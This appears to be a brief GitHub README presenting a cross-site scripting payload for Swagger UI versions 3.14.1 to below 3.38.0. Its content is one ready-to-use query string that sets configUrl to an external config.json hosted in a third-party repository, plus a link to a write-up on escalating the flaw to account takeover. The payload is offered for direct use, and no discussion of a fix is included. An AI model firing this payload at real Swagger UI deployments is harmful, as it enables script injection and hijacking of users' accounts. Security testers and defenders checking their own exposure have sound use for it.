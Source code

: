 # Swagger UI >=3.14.1 < 3.38.0 XSS payload

- Swagger UI version affected: `>=3.14.1 < 3.38.0`
  
### `configUrl Payload`

`?configUrl=https://raw.githubusercontent.com/0xManan/SwagXSS/main/config.json`

**More info at**: https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/
